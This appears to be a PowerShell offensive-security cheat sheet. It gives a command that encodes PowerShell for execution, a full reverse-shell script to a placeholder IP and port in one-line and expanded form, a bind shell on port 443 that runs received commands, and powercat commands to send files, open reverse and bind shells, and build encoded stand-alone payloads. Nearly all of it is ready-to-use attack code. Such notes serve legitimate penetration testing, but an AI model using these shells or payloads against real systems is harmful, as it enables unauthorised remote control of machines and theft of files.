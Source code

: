 **Encode PowerShell from the command line**
- ```PowerShell
  echo "iex(cmd)" | iconv -t UTF-16LE | base64 -w 0 | xclip -sel clip
  ```
  - [[Reference](https://twitter.com/whitecyberduck/status/1660095924931010560?s=46)]

**Send a reverse shell with PowerShell**
- ```PowerShell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- ```PowerShell
  $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  	$sendback = (iex $data 2>&1 | Out-String );
  	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  	$stream.Write($sendbyte,0,$sendbyte.Length);
  	$stream.Flush();
  }
  $client.Close();
  ```

**Set up a bind shell with PowerShell**
```PowerShell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Powercat**

Script: [powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1).

```PowerShell
powercat -c <IP> -p <PORT> -i C:\<DIR>\powercat.ps1                     Send a file
powercat -c <IP> -p <PORT> -e cmd.exe                                   Send a reverse shell
powercat -l -p 443 -e cmd.exe                                           Set up a bind shell; -l option to create a listener, -p to specify the listening port number, -e to have an application executed once connected
powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1             Create a stand-alone payload
powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1     Create an encoded stand-alone payload with powercat
```
